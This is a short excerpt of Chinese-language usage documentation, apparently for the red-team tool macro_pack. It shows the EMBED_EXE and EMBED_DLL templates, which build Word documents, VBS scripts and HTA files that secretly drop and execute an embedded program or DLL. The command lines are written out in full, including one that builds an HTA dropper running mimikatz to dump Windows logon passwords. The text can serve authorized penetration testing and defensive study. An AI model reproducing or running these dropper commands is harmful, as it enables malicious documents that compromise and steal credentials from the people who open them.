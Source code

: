 #### EMBED_EXE
结合–embed选项，它将删除并执行（隐藏）嵌入文件
```
macro_pack.exe -t EMBED_EXE --embed=%%windir%%\system32\calc.exe -o -G my_calc.vbs
echo "path\\to\newcalc.exe" | macro_pack.exe -t EMBED_EXE --embed=%%windir%%\system32\calc.exe -o -G my_calc.doc
```

#### EMBED_DLL
结合使用–embed选项，它将删除并调用给定DLL中的函数
```
echo "main" | macro_pack.exe -t EMBED_DLL --embed=cmd.dll -o -G cmd.doc 
echo "main log privilege::debug sekurlsa::logonpasswords exit" | macro_pack.exe -t EMBED_DLL --embed=mimikatz.dll -o -G mimidropper.hta
```


